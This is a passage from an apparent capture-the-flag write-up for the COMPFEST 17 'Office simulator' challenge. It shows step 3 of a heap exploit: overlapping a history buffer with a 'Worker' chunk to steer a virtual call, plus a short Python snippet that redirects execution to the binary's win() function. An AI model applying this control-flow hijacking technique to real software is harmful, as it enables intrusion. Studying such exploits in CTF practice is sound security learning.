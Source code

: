 ![alt](../../../img/CTFNational/COMPFEST_17_CTF_Qual/OfficesimulatorLeak.png)

3. With the OOB index, `tire(8)` makes a virtual call through a pointer we can steer (by overlapping choice_history buffer with  “Worker” chunk and then writing controlled 4-byte ints into it). Combined with `win()` present in the binary, this is a straight ret2win:

```python
menu(5) # clear history
menu(heap_leak + 0x388) # Pointer to win
menu(0)
menu(elf.sym["_Z3winv"])
menu(0)
tire(8) # trigger win
```